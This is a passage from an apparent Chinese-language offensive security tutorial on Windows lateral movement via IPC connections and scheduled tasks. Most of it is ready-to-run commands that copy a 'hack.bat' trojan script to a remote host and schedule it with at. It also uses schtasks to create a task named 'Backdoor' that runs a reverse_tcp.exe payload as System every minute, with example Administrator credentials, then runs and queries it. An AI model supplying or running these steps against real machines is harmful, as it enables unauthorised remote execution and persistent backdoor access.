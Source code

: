 \\3. 查看目标时间，创建计划任务（at、schtasks）定时执行拷贝到的脚本

\\4. 删除 IPC 链接

ps: **Windows Server 2012 以后的版本没有at命令，只有schtasks命令**

### [at（计划任务）](#toc_at)

利用过程如下：

```plain
net time \\192.168.1.131
# 查看时间
at \\192.168.1.131 10:30 cmd.exe /c "whoami > c:\result.txt"
# 结果输出到 result 下
type \\192.168.1.131\c$\result.txt
# 查看执行结果
at \\192.168.1.131 1 /delete
# 删除计划任务，1是任务号
copy hack.bat \\192.168.1.131\c$\Windows\Temp
# 上传 bat 脚本
net time \\192.168.1.131                                                        
# 查看时间
at \\192.168.1.131 19:48 c:\Windows\Temp\hack.bat
# 创建定时任务，执行木马脚本
at \\192.168.1.131                                                              
# 查看任务列表
```

### [schtasks（计划任务）](#toc_schtasks)

操作步骤：

1.  利用已建立的IPC连接上传后门程序
2.  利用已建立的IPC连接或指定用户凭据的方式在远程主机上创建计划任务shell

```plain
schtasks /Create /S 192.168.1.131 /TN Backdoor /SC minute /MO 1 /TR C:\users\pubilc\reverse_tcp.exe /RN System /F # /S 指定要连接的系统； /TN 指定计划任务的名称 # /SC 指定计划任务执行频率；  /MO 指定计划任务执行周期 # /TR 指定计划任务执行程序；  /RU 指定计划任务运行的用户权限 # /F  如果指定的任务已存在，则强制创建
```

如果没有建立IPC连接，则需要指定远程主机的用户凭据

```plain
schtasks /Create /S 192.168.1.131 /TN Backdoor /SC minute /MO 1 /TR C:\users\pubilc\reverse_tcp.exe /RN System /F /U Administrator /P 123qwe@
```

-   创建完成后，可以等待计划任务自行执行，也可以立即启动计划任务shell

```plain
schtasks /RUN /S 192.168.1.131 /I /TN Backdoor
```

-   查看计划任务shell

```plain
schtasks /query /S 192.168.1.131 /TN Backdoor
```
